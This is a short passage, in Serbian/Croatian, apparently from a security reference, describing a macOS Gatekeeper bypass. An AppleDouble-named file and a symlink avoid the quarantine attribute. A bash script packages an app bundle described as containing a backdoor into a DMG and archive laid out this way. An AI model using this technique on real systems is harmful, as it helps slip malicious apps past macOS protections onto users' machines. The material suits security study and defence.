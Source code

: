 Moguće je bilo zaobići Gatekeeper tako što se napravi datoteka koja neće imati postavljen atribut karantina. Trik je bio da se napravi aplikacija DMG datoteke koristeći AppleDouble konvenciju imena (početi sa `._`) i napraviti vidljivu datoteku kao simboličku vezu ka ovoj skrivenoj datoteci bez atributa karantina. Kada se izvrši DMG datoteka, pošto nema atribut karantina, zaobići će Gatekeeper.

```bash
# Create an app bundle with the backdoor an call it app.app

echo "[+] creating disk image with app"
hdiutil create -srcfolder app.app app.dmg

echo "[+] creating directory and files"
mkdir
mkdir -p s/app
cp app.dmg s/app/._app.dmg
ln -s ._app.dmg s/app/app.dmg

echo "[+] compressing files"
aa archive -d s/ -o app.aar
```

#### Sprječavanje karantenskog xattr-a

U paketu ".app" ako karantenski xattr nije dodan, prilikom izvršavanja **Gatekeeper neće biti pokrenut**.



</details>
